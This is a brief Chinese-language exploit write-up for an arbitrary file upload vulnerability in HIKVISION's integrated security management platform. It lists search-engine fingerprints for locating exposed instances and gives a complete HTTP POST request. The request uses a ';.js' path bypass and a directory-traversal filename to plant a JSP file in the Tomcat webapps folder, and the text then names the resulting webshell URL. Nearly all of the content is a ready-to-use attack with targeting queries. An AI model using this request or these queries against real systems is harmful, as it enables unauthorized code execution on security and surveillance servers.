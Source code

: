 # HiKVISION 综合安防管理平台 任意文件上传漏洞

## 资产收集

<a-checkbox checked>app="HIKVISION-综合安防管理平台" </a-checkbox></br>

<a-checkbox checked>web.title=="综合安防管理平台"  </a-checkbox></br>

## 漏洞复现

```plain
POST /center/api/files;.js HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/Fiy0.jsp"
Content-Type: application/octet-stream

<%out.print("test3");%>

--502f67681799b07e4de6b503655f5cae--
```

![img](img/fileupload.png)  

webshell连接地址：http://clusterMgr/Fiy0.jsp;js